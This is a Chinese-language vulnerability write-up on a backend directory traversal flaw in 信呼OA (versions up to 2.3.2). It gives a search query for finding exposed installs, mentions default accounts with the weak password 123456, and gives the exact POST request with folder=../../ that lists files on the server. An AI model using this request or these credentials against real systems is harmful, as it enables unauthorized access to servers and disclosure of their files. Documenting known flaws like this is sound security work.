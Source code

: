 # 信呼OA beifenAction.php 后台目录遍历漏洞

# 信呼OA beifenAction.php 后台目录遍历漏洞

## 漏洞描述

信呼OA beifenAction.php文件中调用了 getfilerows方法，导致了目录遍历漏洞，攻击者通过漏洞可以获取服务器上的文件信息

## 漏洞影响

```
信呼OA <= 2.3.2
```

## 网络测绘

```
app="信呼协同办公系统"
```

## 漏洞复现

登录页面

![image-20220520133147020](/images/202205201331106.png)

其中默认存在几个用户存在弱口令 123456

![image-20220520133200310](/images/202205201332409.png)

存在漏洞的文件为 `webmain/system/beifen/beifenAction.php`

![image-20220520133212813](/images/202205201332896.png)

查看 `getfilerows()` 方法，在 `include/chajian/fileChajian.php`

![image-20220520133224646](/images/202205201332744.png)

该方法遍历目录下的文件名并输出，登录后，发送请求包

```
POST /index.php?a=getdatssss&m=beifen&d=system&ajaxbool=true

folder=../../
```

![image-20220520133237936](/images/202205201332997.png)

